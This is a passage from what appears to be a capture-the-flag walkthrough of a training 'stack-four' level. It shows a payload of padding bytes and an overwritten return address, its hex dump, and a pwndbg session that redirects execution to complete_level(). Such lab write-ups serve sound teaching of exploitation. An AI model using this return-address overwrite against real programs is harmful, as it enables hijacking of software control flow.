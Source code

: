 We now want to send the output of our `exploit.py` script to a file called `exploit`:

```
python3 exploit.py > exploit
```

Examining exploit:

```
xxd exploit

00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 a951 5555 5555 0000  AAAAAAAA.QUUUU..
```

We see that the file is filled with `A`'s.

## Exploitation

<pre><code>pwndbg stack-four

<strong>pwndbg> b main
</strong>
pwndbg> run &#x3C; exploit

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni
and will be returning to 0x5555555551a9
Congratulations, you've finished mylevel :-) Well done!
[Inferior 1 (process 44758) exited normally]
</code></pre>

From here, you can see that we are calling line 30, `start_level()` since we replaced it with the address of `complete_level()` instead!!! Once we do this, we complete the level!

<figure><img src="../../../.gitbook/assets/image (2) (1) (3) (5).png" alt=""><figcaption></figcaption></figure>
